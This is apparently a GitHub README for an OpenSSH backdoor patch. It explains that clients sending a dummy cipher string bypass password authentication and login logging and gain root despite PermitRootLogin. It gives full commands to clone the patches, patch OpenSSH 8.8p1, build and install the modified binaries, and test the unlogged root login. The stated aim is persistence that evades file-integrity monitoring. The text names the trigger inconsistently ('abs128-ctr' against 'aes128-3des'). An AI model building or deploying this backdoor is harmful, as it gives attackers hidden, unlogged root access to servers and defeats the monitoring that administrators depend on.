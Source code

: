 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server, adding new users, overwriting credentials, or deploying an implant such as a reverse shell. 

The patch creates a dummy cipher suite, in this case `aes128-3des` that functions as an activation phrase. Any client that sends this dummy cipher spec during the SSH [algorithm negotiation](https://datatracker.ietf.org/doc/html/rfc4253#section-7.1) will completely bypass PASSWD authentication on the patched server, and will also bypass authentication logging. Clients connecting with normal cipher specs will authenticate as normal.

Additionally, the patch overrides `PermitRootLogin`, allowing clients sending the activation phrase to login as root regardless of the OpenSSH server's restriction. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server binary in `/tmp/sshd`. 

```
wget https://github.com/openssh/openssh-portable/archive/refs/tags/V_8_8_P1.tar.gz
gunzip V_8_8_P1.tar.gz
tar xvf V_8_8_P1.tar
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable-V_8_8_P1/
cd openssh-portable-V_8_8_P1/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u packet.c -i packet.c.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/ --sbindir=/tmp/
make -j 24
sudo make install
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /tmp/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root. The backdoor authentication will not be logged either during login or logout. 
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "aes128-3des,chacha20-poly1305@openssh.com"
```
